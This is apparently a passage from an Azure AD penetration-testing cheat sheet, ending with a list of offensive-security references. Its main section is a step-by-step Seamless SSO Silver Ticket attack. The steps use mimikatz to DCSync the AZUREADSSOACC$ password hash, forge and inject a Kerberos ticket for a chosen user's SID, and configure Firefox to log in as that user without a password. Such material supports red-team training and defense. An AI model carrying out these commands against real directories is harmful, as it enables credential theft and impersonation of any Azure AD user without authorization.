 Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

### Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

> Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## References

* [Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [Learn with @trouble1_raunak: Cloud Pentesting - Azure (Illicit Consent Grant Attack) !!](https://www.youtube.com/watch?v=51FSvndgddk&list=WL)
* [Pass-the-PRT attack and detection by Microsoft Defender for … - Derk van der Woude - Jun 9](https://derkvanderwoude.medium.com/pass-the-prt-attack-and-detection-by-microsoft-defender-for-afd7dbe83c94)
* [Azure AD Pass The Certificate - Mor - Aug 19, 2020](https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597)
* [Get Access Tokens for Managed Service Identity on Azure App Service](https://zhiliaxu.github.io/app-service-managed-identity.html)
* [Bypassing conditional access by faking device compliance - September 06, 2020 - @DrAzureAD](https://o365blog.com/post/mdm/)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)
* [Get-AzurePasswords: A Tool for Dumping Credentials from Azure Subscriptions - August 28, 2018 - Karl Fosaaen](https://www.netspi.com/blog/technical/cloud-penetration-testing/get-azurepasswords/)
* [An introduction to penetration testing Azure - Graceful Security](https://www.gracefulsecurity.com/an-introduction-to-penetration-testing-azure/)
* [Running Powershell scripts on Azure VM - Netspi](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)
* [Attacking Azure Cloud shell - Netspi](https://blog.netspi.com/attacking-azure-cloud-shell/)
* [Maintaining Azure Persistence via automation accounts - Netspi](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Detecting an attacks on active directory with Azure - Smartspate](https://www.smartspate.com/detecting-an-attacks-on-active-directory-with-azure/)
* [Azure AD Overview](https://www.youtube.com/watch?v=l_pnNpdxj20) 